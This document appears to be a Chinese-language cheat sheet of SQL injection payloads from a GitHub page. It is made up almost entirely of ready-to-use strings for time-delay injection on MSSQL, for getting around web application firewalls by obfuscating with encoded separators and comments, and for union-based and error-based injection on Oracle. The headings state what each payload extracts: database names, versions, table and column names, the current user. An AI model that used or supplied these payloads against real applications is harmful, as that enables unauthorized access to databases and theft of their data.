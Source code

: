 #### mssql延时注入

- 获取长度和数据库名
```
'/**/and/**/substring((select/**/top/**/1/**/name/**/from/**/master.dbo.sysdatabases),1,6)='Master'waitfor/**/delay'0:0:2'/**/--+
'/**/and/**/len((select/**/top/**/1/**/name/**/from/**/master.dbo.sysdatabases))=6/**/waitfor/**/delay'0:0:2'/**/--+
```

#### mssql_waf绕过

- 获取版本和数据库名
```
'%1eaNd%1e@@version LIKE '%2015%'--+	
'%1eoR%1e1=(db_name/**/()%1e)%1e--+
```
- 获取全部数据库
```
'%1eoR%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename(name)%1efRom master%0f..sysobjects%1ewHerE%1extype='U' FOR XML PATH(''))%1e--
```
- 获取表的所有列
```
'%1eaND%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename/**/(name)%1efRom 数据库名%0f..syscolumns%1ewHerE%1eid=(selEct/*xxxxxxxxx*/%1eid%1efrom%1e数据库名%0f..sysobjects%1ewHerE%1ename='表名')%1efoR%1eXML%1ePATH/**/(''))%1e-
```

### oracle注入

#### oracle联合查询

- 判断是否oracle，在mssql和mysql以及db2内返回长度值是调用len()函数；在oracle和INFORMIX则是length()
```
' and len('a')=1--+
```
- 获取当前数据库用户
```
' and 1=2 union select null,(select banner from sys.v_$version where rownum=1),null from dual--+
```
- 爆当前数据库中的第二个表
```
' and 1=2 union select 1,(select table_name from user_tables where rownum=1 and table_name not in ('第一个表')) from dual--+
```
- 爆某表中的第一个字段
```
' and 1=2 union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='表名（大写的）') from dual--+
```

#### Oracle报错注入

- 获取当前数据库用户
```
' and 1=ctxsys.drithsx.sn(1,(select user from dual))--+
' and 1=utl_inaddr.get_host_name((select user from dual))--+
' and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual)--+
' and 1=ordsys.ord_dicom.getmappingxpath((select user from dual),user,user)--+
' and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null--+
' and (select dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null--+
' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null--+
```
